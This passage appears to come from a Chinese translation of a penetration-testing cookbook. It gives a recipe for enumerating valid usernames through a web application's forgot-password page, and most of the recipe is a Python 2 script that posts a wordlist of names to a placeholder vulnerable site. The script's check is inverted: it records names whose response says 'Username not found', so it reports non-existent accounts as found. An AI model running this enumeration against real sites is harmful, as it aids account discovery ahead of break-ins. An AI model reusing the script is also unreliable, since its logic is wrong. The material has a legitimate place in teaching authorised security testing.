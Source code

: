 此示例可以适应其他情况。密码重置可能会要求输入电子邮件地址而不是用户名。或者成功的响应可能会显示用户注册的电子邮件地址。重要的是要注意可能会透露比应该更多信息的 Web 应用程序的情况。

## 另请参阅

对于更大的工作，您将希望考虑使用*暴力破解用户名*示例。

# 暴力破解用户名

对于小型但常规的情况，一个快速检查工具就足够了。那么对于更大的工作呢？也许您从开源情报收集中获得了大量数据，并且想要查看这些用户中有多少使用您正在针对的应用程序。这个示例将向您展示如何自动化检查您在文件中存储的用户名的过程。

## 准备工作

在使用此示例之前，您需要获取要测试的用户名列表。这可以是您自己创建的内容，也可以使用 Kali 中找到的字典。如果需要创建自己的列表，一个好的起点是使用可能在 Web 应用程序中找到的常见名称。这些可能包括用户名，如`user`，`admin`，`administrator`等。

## 如何做...

此脚本将尝试检查提供的用户名列表，以确定该应用程序中是否存在帐户：

```py
#brute force username enumeration
import sys
import urllib
import urllib2

if len(sys.argv) !=2:
    print "usage: %s filename" % (sys.argv[0])
    sys.exit(0)

filename=str(sys.argv[1])
userlist = open(filename,'r')
url = "http://www.vulnerablesite.com/forgotpassword.html"
foundusers = []
UnknownStr="Username not found"

for user in userlist:
  user=user.rstrip()
  data = urllib.urlencode({"username":user})
  request = urllib2.urlopen(url,data)
  response = request.read()

  if(response.find(UnknownStr)>=0):
    foundusers.append(user)
  request.close()
userlist.close()

if len(foundusers)>0:
  print "Found Users:\n"
  for name in foundusers:
    print name+"\n"
else:
  print "No users found\n"
```
